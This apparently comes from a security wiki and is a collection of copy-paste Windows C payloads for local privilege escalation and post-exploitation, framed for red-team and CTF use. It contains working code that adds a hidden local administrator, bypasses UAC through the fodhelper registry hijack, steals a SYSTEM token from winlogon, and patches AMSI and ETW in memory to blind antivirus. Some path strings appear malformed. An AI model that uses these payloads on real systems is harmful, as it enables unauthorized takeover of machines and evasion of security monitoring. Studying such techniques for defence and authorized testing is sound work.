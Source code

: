 # Windows C Payloads

This page collects **small, self-contained C snippets** that are handy during Windows Local Privilege Escalation or post-exploitation.  Each payload is designed to be **copy-paste friendly**, requires only the Windows API / C runtime, and can be compiled with `i686-w64-mingw32-gcc` (x86) or `x86_64-w64-mingw32-gcc` (x64).

> ⚠️  These payloads assume that the process already has the minimum privileges necessary to perform the action (e.g. `SeDebugPrivilege`, `SeImpersonatePrivilege`, or medium-integrity context for a UAC bypass).  They are intended for **red-team or CTF settings** where exploiting a vulnerability has landed arbitrary native code execution.

---

## Add local administrator user

```c
// i686-w64-mingw32-gcc -s -O2 -o addadmin.exe addadmin.c
#include <stdlib.h>
int main(void) {
    system("net user hacker Hacker123! /add");
    system("net localgroup administrators hacker /add");
    return 0;
}
```

---

## UAC Bypass – `fodhelper.exe` Registry Hijack (Medium → High integrity)
When the trusted binary **`fodhelper.exe`** is executed, it queries the registry path below **without filtering the `DelegateExecute` verb**.  By planting our command under that key an attacker can bypass UAC *without* dropping a file to disk.

*Registry path queried by `fodhelper.exe`*
```
HKCU\Software\Classes\ms-settings\Shell\Open\command
```
A minimal PoC that pops an elevated `cmd.exe`:

```c
// x86_64-w64-mingw32-gcc -municode -s -O2 -o uac_fodhelper.exe uac_fodhelper.c
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

int main(void) {
    HKEY hKey;
    const char *payload = "C:\\Windows\\System32\\cmd.exe"; // change to arbitrary command

    // 1. Create the vulnerable registry key
    if (RegCreateKeyExA(HKEY_CURRENT_USER,
        "Software\\Classes\\ms-settings\\Shell\\Open\\command", 0, NULL, 0,
        KEY_WRITE, NULL, &hKey, NULL) == ERROR_SUCCESS) {

        // 2. Set default value => our payload
        RegSetValueExA(hKey, NULL, 0, REG_SZ,
            (const BYTE*)payload, (DWORD)strlen(payload) + 1);

        // 3. Empty "DelegateExecute" value = trigger (")
        RegSetValueExA(hKey, "DelegateExecute", 0, REG_SZ,
            (const BYTE*)"", 1);

        RegCloseKey(hKey);

        // 4. Launch auto-elevated binary
        system("fodhelper.exe");
    }
    return 0;
}
```
*Tested on Windows 10 22H2 and Windows 11 23H2 (July 2025 patches). The bypass still works because Microsoft has not fixed the missing integrity check in the `DelegateExecute` path.*

---

## Spawn SYSTEM shell via token duplication (`SeDebugPrivilege` + `SeImpersonatePrivilege`)
If the current process holds **both** `SeDebug` and `SeImpersonate` privileges (typical for many service accounts), you can steal the token from `winlogon.exe`, duplicate it, and start an elevated process:

```c
// x86_64-w64-mingw32-gcc -O2 -o system_shell.exe system_shell.c -ladvapi32 -luser32
#include <windows.h>
#include <tlhelp32.h>
#include <stdio.h>

DWORD FindPid(const wchar_t *name) {
    PROCESSENTRY32W pe = { .dwSize = sizeof(pe) };
    HANDLE snap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    if (snap == INVALID_HANDLE_VALUE) return 0;
    if (!Process32FirstW(snap, &pe)) return 0;
    do {
        if (!_wcsicmp(pe.szExeFile, name)) {
            DWORD pid = pe.th32ProcessID;
            CloseHandle(snap);
            return pid;
        }
    } while (Process32NextW(snap, &pe));
    CloseHandle(snap);
    return 0;
}

int wmain(void) {
    DWORD pid = FindPid(L"winlogon.exe");
    if (!pid) return 1;

    HANDLE hProc   = OpenProcess(PROCESS_QUERY_LIMITED_INFORMATION, FALSE, pid);
    HANDLE hToken  = NULL, dupToken = NULL;

    if (OpenProcessToken(hProc, TOKEN_DUPLICATE | TOKEN_ASSIGN_PRIMARY | TOKEN_QUERY, &hToken) &&
        DuplicateTokenEx(hToken, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &dupToken)) {

        STARTUPINFOW si = { .cb = sizeof(si) };
        PROCESS_INFORMATION pi = { 0 };
        if (CreateProcessWithTokenW(dupToken, LOGON_WITH_PROFILE,
                L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL, CREATE_NEW_CONSOLE,
                NULL, NULL, &si, &pi)) {
            CloseHandle(pi.hProcess);
            CloseHandle(pi.hThread);
        }
    }
    if (hProc) CloseHandle(hProc);
    if (hToken) CloseHandle(hToken);
    if (dupToken) CloseHandle(dupToken);
    return 0;
}
```
For a deeper explanation of how that works see:

[[sedebug-+-seimpersonate-copy-token.md]]

---

## In-Memory AMSI & ETW Patch (Defence Evasion)
Most modern AV/EDR engines rely on **AMSI** and **ETW** to inspect malicious behaviours.  Patching both interfaces early inside the current process prevents script-based payloads (e.g. PowerShell, JScript) from being scanned.

```c
// gcc -o patch_amsi.exe patch_amsi.c -lntdll
#define _CRT_SECURE_NO_WARNINGS
#include <windows.h>
#include <stdio.h>

void Patch(BYTE *address) {
    DWORD oldProt;
    // mov eax, 0x80070057 ; ret  (AMSI_RESULT_E_INVALIDARG)
    BYTE patch[] = { 0xB8, 0x57, 0x00, 0x07, 0x80, 0xC3 };
    VirtualProtect(address, sizeof(patch), PAGE_EXECUTE_READWRITE, &oldProt);
    memcpy(address, patch, sizeof(patch));
    VirtualProtect(address, sizeof(patch), oldProt, &oldProt);
}

int main(void) {
    HMODULE amsi  = LoadLibraryA("amsi.dll");
    HMODULE ntdll = GetModuleHandleA("ntdll.dll");

    if (amsi)  Patch((BYTE*)GetProcAddress(amsi,  "AmsiScanBuffer"));
    if (ntdll) Patch((BYTE*)GetProcAddress(ntdll, "EtwEventWrite"));

    MessageBoxA(NULL, "AMSI & ETW patched!", "OK", MB_OK);
    return 0;
}
```
*The patch above is process-local; spawning a new PowerShell after running it will execute without AMSI/ETW inspection.*

---

## Create child as Protected Process Light (PPL)
Request a PPL protection level for a child at creation time using `STARTUPINFOEX` + `PROC_THREAD_ATTRIBUTE_PROTECTION_LEVEL`. This is a documented API and will only succeed if the target image is signed for the requested signer class (Windows/WindowsLight/Antimalware/LSA/WinTcb).

```c
// x86_64-w64-mingw32-gcc -O2 -o spawn_ppl.exe spawn_ppl.c
#include <windows.h>

int wmain(void) {
    STARTUPINFOEXW si = {0};
    PROCESS_INFORMATION pi = {0};
    si.StartupInfo.cb = sizeof(si);

    SIZE_T attrSize = 0;
    InitializeProcThreadAttributeList(NULL, 1, 0, &attrSize);
    si.lpAttributeList = (PPROC_THREAD_ATTRIBUTE_LIST)HeapAlloc(GetProcessHeap(), 0, attrSize);
    InitializeProcThreadAttributeList(si.lpAttributeList, 1, 0, &attrSize);

    DWORD lvl = PROTECTION_LEVEL_ANTIMALWARE_LIGHT; // choose the desired level
    UpdateProcThreadAttribute(si.lpAttributeList, 0,
        PROC_THREAD_ATTRIBUTE_PROTECTION_LEVEL,
        &lvl, sizeof(lvl), NULL, NULL);

    if (!CreateProcessW(L"C\\\Windows\\\System32\\\notepad.exe", NULL, NULL, NULL, FALSE,
                        EXTENDED_STARTUPINFO_PRESENT, NULL, NULL, &si.StartupInfo, &pi)) {
        // likely ERROR_INVALID_IMAGE_HASH (577) if the image is not properly signed for that level
        return 1;
    }
    DeleteProcThreadAttributeList(si.lpAttributeList);
    HeapFree(GetProcessHeap(), 0, si.lpAttributeList);
    CloseHandle(pi.hThread);
    CloseHandle(pi.hProcess);
    return 0;
}
```

Levels used most commonly:
- `PROTECTION_LEVEL_WINDOWS_LIGHT` (2)
- `PROTECTION_LEVEL_ANTIMALWARE_LIGHT` (3)
- `PROTECTION_LEVEL_LSA_LIGHT` (4)

Validate the result with Process Explorer/Process Hacker by checking the Protection column.

---

## References
* Ron Bowes – “Fodhelper UAC Bypass Deep Dive” (2024)
* SplinterCode – “AMSI Bypass 2023: The Smallest Patch Is Still Enough” (BlackHat Asia 2023)
* CreateProcessAsPPL – minimal PPL process launcher: https://github.com/2x7EQ13/CreateProcessAsPPL
* Microsoft Docs – STARTUPINFOEX / InitializeProcThreadAttributeList / UpdateProcThreadAttribute

